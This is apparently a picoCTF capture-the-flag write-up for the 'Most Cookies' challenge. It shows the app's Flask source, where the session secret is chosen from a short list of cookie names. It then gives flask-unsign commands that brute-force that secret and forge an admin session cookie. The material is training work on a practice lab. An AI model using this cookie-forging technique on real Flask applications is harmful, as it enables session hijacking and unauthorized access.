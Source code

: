 # URL
https://play.picoctf.org/practice/challenge/177
# Concept
* encoded cookies
* JWT (JSON web tokens)
* Flask cookies
# Method of solve
* this challenge lets us see the app's source code, written in Python
```
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("./flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

@app.route("/")
def main():
        if session.get("very_auth"):
                check = session["very_auth"]
                if check == "blank":
                        return render_template("index.html", title=title)
                else:
                        return make_response(redirect("/display"))
        else:
                resp = make_response(redirect("/"))
                session["very_auth"] = "blank"
                return resp

@app.route("/search", methods=["GET", "POST"])
def search():
        if "name" in request.form and request.form["name"] in cookie_names:
                resp = make_response(redirect("/display"))
                session["very_auth"] = request.form["name"]
                return resp
        else:
                message = "That doesn't appear to be a valid cookie."
                category = "danger"
                flash(message, category)
                resp = make_response(redirect("/"))
                session["very_auth"] = "blank"
                return resp

@app.route("/reset")
def reset():
        resp = make_response(redirect("/"))
        session.pop("very_auth", None)
        return resp

@app.route("/display", methods=["GET"])
def flag():
        if session.get("very_auth"):
                check = session["very_auth"]
                if check == "admin":
                        resp = make_response(render_template("flag.html", value=flag_value, title=title))
                        return resp
                flash("That is a cookie! Not very special though...", "success")
                return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
        else:
                resp = make_response(redirect("/"))
                session["very_auth"] = "blank"
                return resp

if __name__ == "__main__":
        app.run()
```
* Flask apps create cookies that look similar to JWTs, but are slightly different
* this application creates cookies that are signed with a secret that is the name of one of the cookies in the list of cookies in the code
* we can use a tool, like `flask-unsign` to create a cookie with the secret value `admin`, and send it back to the app to get the flag for the challenge
```
flask-unsign --decode --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.aIGZmQ.mNrs9hRTcfj4dt0NLK0Os_Auppo"
echo -n "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.aIGZmQ.mNrs9hRTcfj4dt0NLK0Os_Auppo" > cookie.txt
```
* create the list of cookies by grabbing the list from the Python source code and putting in a file called `secret.txt`
* brute force the secret for the cookie with the following command:
```
flask-unsign --wordlist secrets.txt --unsign --cookie < cookie.txt
```
* use the secret we get from the brute-force and create the admin cookie with the command below
```
flask-unsign --sign --secret "fortune" --cookie "{'very_auth':'admin'}"
```
* copy the cookie and submit to the web app to get the flag
